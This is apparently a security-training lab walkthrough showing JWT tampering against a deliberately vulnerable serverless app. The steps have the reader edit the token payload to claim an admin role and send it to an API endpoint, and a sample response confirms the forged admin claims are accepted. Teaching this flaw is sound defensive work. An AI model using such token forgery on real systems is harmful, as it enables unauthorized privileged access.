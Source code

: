 # **`None` Signed Token**

---

### **Lab Image : `Serverless`**

---

#### Step 1:

* Access the [XML-Uploader](http://sls-training-ui.s3-website-us-east-1.amazonaws.com/) Application on the browser.

```commandline
http://sls-training-ui.s3-website-us-east-1.amazonaws.com/
```

* Register and Login to the Application

> **NOTE**: The details provided CAN be fake and we highly recommend it!*

---

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Local Storage` under the `Storage` section in `developer tools`

* Paste the token on [jwt.io](https://jwt.io/) and tamper the value in `Payload` section

```commandline
{
"username": "admin",
"role": "admin",
"email": "admin@widget.co"
}
```

* Using the tampered token, try to access the application using `http` on the provisioned server

```commandline
http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<token>
```

* It should return with a response similar to the one below:

> **EXAMPLE**:

```text
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 02 Apr 2019 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```
